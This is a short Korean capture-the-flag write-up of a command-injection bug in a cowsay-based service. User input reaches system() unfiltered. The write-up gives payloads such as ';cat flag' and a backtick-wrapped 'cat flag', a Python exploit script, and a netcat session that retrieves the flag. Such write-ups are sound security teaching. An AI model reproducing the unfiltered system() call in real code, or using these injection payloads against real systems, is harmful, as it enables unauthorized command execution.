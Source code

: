 #### 1. 문제 분석

```C
fgets(message, 256, stdin);
snprintf(cmd, 1024, "/usr/games/cowsay -%c %s", cow_face[rand()%8], message);
system(cmd);
```

이번 문제의 핵심적인 부분은 이 3줄의 코드가 되겠습니다.

우리가 입력한 값(message변수의 값)이 바로 시스템함수에 의해 실행이 되는군요!

필터링이 되거나 하지 않기때문에 아무 시스템 명령어나 바로 넣을 수 있습니다.

예를 들어 `lalala; ls -al` 를 넣는다면 `system(/usr/games/cowsay -w lalala; ls -al)` 를 실행하게 되는것이죠.

그러면 결국 /usr/games/cowsay -w lalala 뿐만 아니라 ls -al 도 실행이 되어 결과를 받아 볼 수 있습니다.


#### 2. 문제 풀이

정말 여러가지 풀이방법이 존재하겠지만 여기서는 두가지 방법만 소개하도록 하겠습니다.

1. ; 를 이용하여 여러 명령어를 실행 -> ;cat flag

2. \`\` 백쿼터를 사용하여 명령어를 먼저 실행시킨후 그 값을 받아보기 -> \`cat flag\`

#### 3. Exploit Code

```Python
# exploit.py
payload = ""
payload+= "3\n"          # Select "3. Cow echo"
payload+= "`cat flag`\n" # System command injection! Get the flag.

print payload
```

```Shell
$ (python exploit.py; cat) | nc play.hexa.pro 7777
What does the cow say!

1. Cow fortune
2. Cow time
3. Cow echo
4. Exit

Select: 3
What do you want to say? `cat flag`
 _________________________________
< C0mm4nd 1nj3ctiOn! Great JOB :) >
 ---------------------------------
        \   ^__^
         \  ($$)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

What does the cow say!

1. Cow fortune
2. Cow time
3. Cow echo
4. Exit

Select: 4
 ______
< bye~ >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```
